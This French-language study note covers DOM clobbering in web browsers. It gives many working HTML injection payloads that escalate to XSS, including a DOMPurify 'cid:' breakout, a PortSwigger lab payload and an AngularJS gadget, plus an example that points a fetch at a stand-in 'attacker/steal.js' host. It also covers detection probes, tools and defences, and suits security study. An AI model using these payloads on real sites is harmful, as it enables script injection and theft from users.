

# DOM Clobbering

> [!info] **En 1 phrase**
> DOM Clobbering = **saturer les variables globales** du navigateur en injectant des balises HTML
> avec des `id`/`name` conflictuels, pour détourner le JS de la page (`window.foo`, `document.getElementById`, `x.y.z`...)
> → contrôle du flux d'un script → souvent **XSS**.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/DOM%20Clobbering.md)** + PortSwigger Research

---

## Concept



### Le mécanisme

- Le navigateur **crée automatiquement des variables globales** pour chaque élément possédant un attribut `id` (et parfois `name`). Une balise `<div id="foo">` fait naître `window.foo` → l'élément DOM.
- Si le JS de la page s'appuie sur cette variable (au lieu de `document.getElementById('foo')`), **l'attaquant contrôle la "valeur"** de la variable : un texte, un href, un objet, une collection...
- Le nom vient de l'anglais *clobber* = « assommer / écraser » : on écrase une référence JS avec un nœud DOM contrôlé.

### Différence avec le XSS classique

| | XSS classique | DOM Clobbering |
|---|---|---|
| Vecteur | Exécution directe de balises `<script>`/handlers | Pas d'exécution directe |
| Condition | Réflexion non filtrée | Le JS de la page **fait confiance à une variable globale** |
| Résultat | Payload exécuté immédiatement | Sink exécuté **par le code applicatif** (souvent second order / stocké) |
| Détection | Réflexion visible dans le DOM | Invisible : dépend du code JS analysé |

> [!info] **Pourquoi ça marche**
> Une seule **injection HTML** (n'importe où dans le DOM, même non exécutable) suffit.
> On ne tape pas dans le moteur JS : on **modifie l'environnement** dans lequel le script tourne.

---

## Payloads de base

### Variable globale simple (`id`)

```html
<!-- Injection -->
<div id="alert">Je suis un nœud, pas une fonction</div>

<!-- Sink applicatif -->
<script>
  if (window.alert) {          // true : window.alert existe !
    alert("Bypassé ?");        // Type error : alert est un DIV
  }
</script>
```

### Élément + `name` → collection (`HTMLCollection`)

Deux éléments avec le même `id` + un `name` forment une **`HTMLCollection`** nommée. Le premier `name` d'élément du même `id` devient une propriété de cette collection.

```html
<!-- Injection -->
<a id=x><a id=x name=y href="Clobbered">

<!-- Sink -->
<script>alert(x.y)</script>  <!-- → l'élément <a> (href contrôlé) -->
```

### La hiérarchie `form` → éléments

Un `<form id=x>` **expose ses champs par nom** : `x.y` pointe vers l'élément, `x.y.value` vers sa valeur.

```html
<!-- Injection -->
<form id=x><output id=y>I've been clobbered</output></form>

<!-- Sink -->
<script>alert(x.y.value)</script>  <!-- → "I've been clobbered" -->
```

### `name` sur le form → propriété de la collection

```html
<!-- Injection -->
<form id=x name=y><input id=z></form>
<form id=x></form>

<!-- Sink -->
<script>alert(x.y.z)</script>  <!-- → 3 niveaux de profondeur -->
```

### Plus de 3 niveaux (`a.b.c.d`) — Chrome

Les iframes `srcdoc` permettent de **surcharger la chaîne** au-delà de `x.y.z` :

```html
<!-- Injection -->
<iframe name=a srcdoc="
  <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
<style>@import '//portswigger.net';</style>

<!-- Sink -->
<script>alert(a.b.c.d)</script>
```

### Clobber `forEach` (Chrome only)

```html
<!-- Injection -->
<form id=x>
  <input id=y name=z>
  <input id=y>
</form>

<!-- Sink : x.y.forEach est une VRAIE fonction -->
<script>x.y.forEach(element=>alert(element))</script>
```

> [!tip] **Astuce**
> Le navigateur ajoute automatiquement `forEach` aux collections d'éléments nommées **du même nom**
> → des gadgets de framework qui itèrent sur `x.y.forEach(...)` tombent dans notre piège.

---

## Attaques : bypass & « clobbering » de bibliothèques

### Bypasser la validation des variables

Les devs vérifient souvent `if (x)` / `if (!x)`. Un élément injecté rend `x` **truthy** même si sa valeur attendue est un string/fonction :

```html
<!-- La page attend window.clean || "défaut" -->
<a id=clean>
<script>
  var v = window.clean || "fallback";
  // v = <a> element → chaque propriété lue ensuite est contrôlée
</script>
```

### Contourner `document.x` vs variable globale

L'API du DOM référence aussi des nœuds par **hiérarchie** : `document.body.children[0]`, `document.forms.x`, `document.x` (non standard mais supporté). Vérifier les deux côtés du sink :

```js
// Sink 1 (globale)
alert(x.y.value);

// Sink 2 (document)
alert(document.x.y.value);

// Sink 3 (collection form)
alert(document.forms.x.elements.y.value);
```

### Overrider `document.getElementById`

En injectant un `<html>` ou `<svg><body>` **avec le même `id`**, on force `getElementById` à retourner notre nœud (avec `innerText` contrôlé) à la place du vrai élément :

```html
<!-- Injection -->
<html id="cdnDomain">clobbered</html>
<svg><body id=cdnDomain>clobbered</body></svg>

<!-- Sink -->
<script>alert(document.getElementById('cdnDomain').innerText)</script>  <!-- clobbered -->
```

### Clobber les propriétés URL des `<a>` (`username` / `password`)

Les propriétés `href` parsées de l'élément `<a>` remplacent les propriétés du même nom :

```html
<!-- Injection -->
<a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

<!-- Sink -->
<script>
  alert(x.username)  // Clobbered-username
  alert(x.password)  // Clobbered-Password
</script>
```

### `<base>` (Firefox / Chrome)

```html
<!-- Firefox -->
<base href=a:abc><a id=x href="Firefox<>">
<script>alert(x)</script>  <!-- Firefox<> -->

<!-- Chrome -->
<base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>
<script>alert(x.xyz)</script>  <!-- a://Clobbered<> -->
```

### Clobber de bibliothèques & mots-clés frameworks

- **Lodash / jQuery** : les helpers qui font `_.someObj.someProp` sans `hasOwnProperty` lisent nos propriétés d'élément.
- **`window.foo || {}` puis `foo.bar.baz`** : le dev "protège" par un fallback mais la lecture chaînée plonge dans nos nœuds.
- **Sanitizers** (DOMPurify, sanitize-html) : si le code appelé par l'attaquant arrive **après** l'élément dans le DOM, il lit nos valeurs.

```html
<!-- Gadget classique de framework (AngularJS / many old apps) -->
<a id="angular">{{constructor.constructor('alert(1)')()}}</a>

<!-- Pattern "collection" des frameworks d'état -->
<form id="config"><input id="url" value="https://attacker/steal.js"></form>
<script>
  fetch(window.config.url.value).then(...)  // on contrôle la config !
</script>
```

---

## Escalade XSS (clobber → execution)

### Principe

Le clobbering seul n'exécute rien. L'exécution arrive quand le code applicatif **utilise la valeur clobberée dans un sink** : `href`, `src`, `innerHTML`, `location`, `eval`, handlers d'événements, `srcdoc`...

### Sink `href` → `javascript:`

```html
<!-- Injection : le clobbering fournit le href -->
<a id=back href="javascript:alert(1)">

<!-- Sink applicatif -->
<script>
  if (window.back) location.href = window.back.href;  // XSS
</script>
```

### Payload exact (lab PortSwigger — exploiting DOM clobbering to enable XSS)

```html
<!-- La page fait : window.defaultAvatar || 'avatar.png' puis l'utilise en src -->
<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">

<!-- Flux :
  1. window.defaultAvatar = collection d'ancres
  2. .avatar = 2e <a>
  3. .href = 'cid:"onerror=alert(1)//'
  4. injecté dans   → XSS ! -->
```

> [!warning] **Pourquoi `cid:` ?**
> DOMPurify autorise le protocole `cid:` **sans encoder les double quotes** → on peut "sortir" de
> l'attribut cible et poser un handler `onerror`. Le commentaire `//` neutralise la fin de l'attribut.

### Sink `focus` / `onfocus` (bypass sans event dans le markup)

```html
<!-- Injection -->
<a id=x href="cid:&quot;onfocus=alert(1) autofocus x=&quot;">

<!-- Le clobbering fournit un href contenant un handler → autofocus déclenche -->
```

### Sink `srcdoc` / `innerHTML`

```html
<!-- Injection -->
<iframe id=x srcdoc=""></iframe>

<!-- Sink -->
<script>
  if (window.x) document.body.appendChild(window.x); // → iframe exécuté
</script>
```

---

## Gadgets connus (frameworks & librairies)

| Cible | Pattern clobberé | Résultat |
|---|---|---|
| **DOMPurify** (versions < 2.x / configs permissives) | `cid:` + `"` dans un attribut | Breakout de l'attribut → handler |
| **AngularJS (ancien)** | `{{constructor.constructor(...)}}` | Expression sandbox → RCE JS |
| **jQuery** (`$(window.x)`) | `id=x` contrôlé | Traverse vers nœuds contrôlés |
| **Google Analytics / Tag Managers** | `window.config`, `dataLayer` | Exfiltration config |
| **Service Workers** (Hijacking) | `window.registration.scope` / `self.importScripts` | Détournement du worker → MITM |
| **Lodash** (`.template`) | variables clobberées dans le template | Exécution si la valeur est réévaluée |
| **Frameworks d'état (MobX/Redux)** | props lus depuis le DOM | Injection de "state" contrôlé |

### Gadget `?.` (optional chaining)

> [!warning] **L'optional chaining ne protège PAS contre le clobbering.**
> `window.foo?.bar?.baz` vérifie que les propriétés **existent** — or c'est exactement ce que le
> clobbering fournit : un objet DOM truthy avec les propriétés demandées. Le `?.` bloque les `undefined`,
> pas les éléments contrôlés.

### Gadget collections (HTMLCollection) — helper de libs

```html
<!-- Une lib itère : document.getElementById('x').forEach(...)  -->
<form id=x><input id=y name=z></form>
<form id=x></form>

<!-- Chrome auto-ajoute forEach → la lib itère nos inputs (valeurs contrôlées) -->
```

---

## Détection

### Méthodo (en injection HTML)

1. **Repérer les noms de variables globales** utilisés par les scripts de la page (`window.*`, références nues, `document.*`).
2. **Injecter un `id`/`name` du même nom** et observer une différence de comportement / de rendu.
3. **Tester les formulaires** : `document.forms.x` / `x.elements.y` exposent les champs par `id` et `name`.
4. **Tester les collections** : deux éléments `id=x` → `window.x` devient `HTMLCollection` → `.length`, `.forEach`, `.item()`.

```html
<!-- Sonde universelle -->
<form id=x><input id=y value=CLOBBERED></form>

<!-- Vérifs console -->
x.y.value            → "CLOBBERED"      (clobber simple)
x.length             → nombre d'éléments (collection)
typeof x.forEach     → "function"        (Chrome)
x.constructor        → "function HTMLFormElement"
```

### Combiner aux DOM invader / fuzzing

- **Burp DOM Invader** : scan automatique des sinks DOM (postmessage, prototype, DOM clobbering).
- **Burp Intruder** : brute-force des `id`/`name` candidats sur la liste de gadgets connus.
- **domclob.xyz** : liste complète de payloads navigateur (mobile + desktop) à réutiliser tel quel.

---

## Outils

| Outil | Usage |
|---|---|
| **Burp Suite — DOM Invader** | Détection des sinks DOM clobberés + test manuel intégré |
| **Burp — Intruder/Repeater** | Injection de sondes `id`/`name`, itération de gadgets |
| **Console navigateur** | `window.x`, `x.y`, `document.forms.x` — vérification immédiate de la clobber |
| **[SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list)** | Base de payloads par navigateur (desktop + mobile) |
| **[yeswehack/Dom-Explorer](https://yeswehack.github.io/Dom-Explorer/)** | Tester comment chaque parseur HTML / sanitizer consomme notre markup |
| **PortSwigger Labs** | 3 labs dédiés DOM clobbering (XSS + bypass filter + CSP) |

```js
// Script console : chercher des candidats à clobber dans le bundle
// 1. Liste les références globales utilisées sans déclaration
// 2. grep les patterns : window.<name>, document.<name>, .getElementById("<name>")
// 3. Injecter les sondes et re-tester la page
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Ne jamais faire confiance à `document.*` / variables globales** | Utiliser `document.getElementById('x')` dans une variable locale, jamais `window.x` |
| **Fermetures lexicales** | Garder les références dans le scope de la fonction (closure), pas sur `window` |
| **Vérifier le type** | `if (typeof x === 'string')` et `instanceof` avant d'utiliser, jamais un simple truthy check |
| **Échappement / sérialisation** | Ne pas injecter de valeurs contrôlées dans `href`/`src`/`innerHTML` sans encodage strict + CSP `default-src` |
| **Sanitizer strict** | DOMPurify avec config minimale (`FORBID_TAGS`, interdire `cid:`, `<form>`, `<a name>`) |
| **CSP forte** | `script-src` sans unsafe-inline ; bloque la plupart des escalades XSS post-clobber |
| **Revue de code** | grep des lectures de propriétés sur objets globaux ; chercher les `window.<id>`, les sinks `href`/`src`/`srcdoc` |
| **Surveillance** | Logs des injections HTML (WAF + RASP), alertes sur attributs `name`/`id` anormaux dans le DOM |
| **Cacher les détails d'implémentation** | Éviter d'exposer les noms de variables internes comme id global (préfixe `app-`, scopes d'encapsulation) |

---

## Tips & Pièges

> [!tip] `name` ≠ `id`**
> - `id` → crée `window.<id>` **et** indexe `document.<id>`.
> - `name` → crée la variable globale **seulement pour certains éléments** (`form`, `img`, `iframe`, `embed`, `object`) — pas pour les `<div>`/`<span>`.
> - `id` est interdit sur `<html>` dans la spec mais **les navigateurs l'acceptent quand même** (pratique pour overrider `getElementById`).

> [!tip] **Tester dans la console**
> `x.y.z` → observer le type retourné. Un objet DOM = clobber possible. Comparer avec le rendu attendu du script
> (le clobbering se voit au **changement de comportement**, pas à l'écran forcément).

> [!tip] **L'ordre du DOM compte**
> - Le clobbering ne fonctionne que si l'élément injecté est **déjà dans le DOM** quand le script lit la variable.
> - Deux éléments `id=x` : le **premier** remporte `window.x`, les suivants sont accessibles par index dans la collection.
> - Les scripts de la page chargés **avant** notre injection sont hors de portée (sauf re-lecture tardive).

> [!warning] **Pièges**
> - `?.` ne protège pas (voir gadgets) — le clobbering **crée** les propriétés manquantes.
> - `getElementById` overrider marche via `<html>`/`<svg><body>` avec le même `id` — bien vérifier `innerText`/`innerHTML` du sink.
> - Le `forEach` clobberé est **Chrome-only** ; les payloads `<base>` diffèrent Firefox/Chrome.
> - Les sanitizers par défaut (DOMPurify) autorisent `cid:` — reconfigurer avant de valider.
> - Un clobbering réussi n'est pas forcément un XSS : il faut un **sink** dans le code applicatif.
> - Ne pas oublier le **second order** : l'injection HTML peut être stockée et clobber une page différente.

---

## Liens

- [[XSS (Cross-Site Scripting)| XSS]]
- [[Prototype Pollution| Prototype Pollution]]
- [[SSRF| SSRF]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — DOM Clobbering](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/DOM%20Clobbering.md)
- [PortSwigger — DOM Clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [Bypassing CSP via DOM clobbering (Gareth Heyes)](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [Hijacking service workers via DOM Clobbering (Gareth Heyes)](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
